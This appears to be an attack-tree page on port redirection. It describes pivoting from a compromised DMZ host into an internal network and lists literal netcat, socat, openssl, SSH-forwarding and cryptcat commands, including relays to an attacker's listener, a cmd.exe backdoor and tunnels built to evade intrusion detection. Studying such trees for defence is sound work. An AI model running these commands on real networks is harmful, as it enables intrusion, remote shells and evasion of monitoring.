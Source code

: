 # Port redirection

In port redirection, an adversary uses a machine with access to the internal network to pass traffic through a port on the firewall or access control list (ACL). The port in question normally denies traffic, but with redirection a hacker can bypass security measures and open a tunnel for communication.

For example,  most organisations have a demilitarized zone (DMZ). Servers that communicate from the DMZ and the internal network may have a trust relationship established. The internal devices may be set up to trust information that is received from a DMZ server, and often also vv. When an adversary can compromise a DMZ server she can initiate a connection to the internal network. There are a lot of ways that port redirection can be used to get around obstacles.

* Leverage network access by compromising one system to attack another.
* Access a service that is being blocked by a firewall.
* Evading an intrusion detection system by sending traffic through an encrypted tunnel.

## Attack

    1 Compromise host in DMZ gaining direct access on port 80/tcp only (AND)

    2 Compromise host in internal network by setting a bind shell to listen on port 23 (AND)

    3 Redirect

        3.1 One way port redirection with netcat (OR)

            3.1.1 On attack host set up to receive response traffic 
                    (nc -lv 3333) (AND)

            3.1.2 Redirect on host in DMZ 
                    (nc -lv 80 | nc -t [IP address internal host] 23 | nc [IP address attack host] 3333) (AND)

            3.1.3 Initiate connection to host in DMZ on port 80/tcp (nc [IP address DMZ host] 80) (AND)

            3.1.4 Run commands from window created and receive the command response in the other window.

        3.2 Two way redirection using netcat and named pipes (OR)

            3.2.1 Make pipe on attack host (mkfifo pipe) (AND)

            3.2.2 Redirect on host in DMZ 
                    (nc -lvp 80 <pipe | nc -t [IP address internal host] 23 >pipe) (AND)

            3.2.3 Initiate a connection to host in DMZ on port 80/tcp 
                    (nc [IP address DMZ host] 80 or telnet [IP address DMZ host] 80) (AND)

            3.2.4 Issue commands and receive command output in the same window

        3.3 Redirect traffic from one port to another on the same host (OR)

            3.3.1 Make pipe on attack host (mkfifo pipe) (AND)

            3.3.2 SSH into host in DMZ if sshd is listening on loopback 
                    (nc -lvp 80 <pipe | nc localhost 22 >pipe) (AND)

            3.3.3 Connect 
                    (ssh -p 80 [IP address DMZ host])

        3.4 Set up two way redirection using socat (OR)

            3.4.1 (socat TCP-LISTEN:80,fork TCP:[IP address internal host]:23)

        3.5 Evade IDS with socat (OR)

            3.5.1 Generate certificates for each host (dmzhost.pem and internalhost.pem) (AND)

                3.5.1.1 Generate a public/private key pair 
                        (openssl genrsa -out [host].key 1024) (AND)

                3.5.1.2 Self sign the certificate 
                        (openssl req -new -key [host].key -x509 -out [host].crt) (AND)

                3.5.1.3 Generate the PEM certificate by concatenating the key and certificate files 
                        (cat [host].key [host].crt > [host].pem) (AND)

                3.5.1.4 Copy the PEM certificate to the host (AND)

            3.5.2 Set up SSL encrypted tunnel on DMZ host to internal host 
                    (socat TCP-LISTEN:80, fork openssl-connect:[IP address internal host]:8080,
                    cert[dmzhost].pem,cafile=[internalhost].crt)

            3.5.3 Set up listener on internal host 
                    (socat openssl-listen:8080,reuseaddr,
                    cert=[internalhost].pem,cafile=[dmzhost].crt,fork TCP:localhost:23)

        3.6 Two way tunnel between attack host and internal host using ssh (OR)

            3.6.1 SSH connection with host in DMZ (AND)

            3.6.2 Setup a listener on attack host on port 3333/tcp 
                    to forward traffic it receives to the internal host on port 23, via host in DMZ 
                    (ssh -L 3333:[internalhost]:23 username@[dmzhost])

        3.7 Bypass IDS using two ssh local forwards (OR)

            3.7.1 SSH connection with host in internal network (AND)

            3.7.2 Login to host in DMZ 
                    (ssh -L 3333:localhost:3333 username@[dmzhost]) (AND)

            3.7.3 On DMZ host login to host in internal network 
                    (ssh -L 3333:localhost:23 username@[internalhost])

        3.8 Setting up attack host as a proxy between DMZ host and a Service host using ssh remote forward (OR)

            3.8.1 Connect to DMZ host with ssh remote forward and connect to 80/tcp of a Service host via the 
                    loopback adapter on the DMZ host (ssh -R 80:[servicehost]:80 username@[dmzhost])

        3.9 Bypass IDS and firewall 
                (port 80 is nearly always open and a little more traffic will hardly be noticed) with cryptcat

            3.9.1 Create backdoor to decrypt communications from DMZ host 
                    (cryptcat -k SECRETKEY -tlp 23 -e cmd.exe)

            3.9.2 Create named pipes on host in DMZ and attack host

            3.9.3 Create tunnel on host in DMZ 
                    (cryptcat -k SECRETKEY -lp 80 <pipe | cryptcat -k SECRETKEY -t [internalhost] 23 >pipe)

            3.9.4 Create listener on attack host to encrypt the traffic to DMZ host 
                    (cryptcat -k SECRETKEY -lvp 23 <pipe | cryptcat -k SECRETKEY -t [dmzhost] 80 >pipe)

            3.9.5 Initiate a telnet connection to local forwarder 
                    (telnet localhost 23)

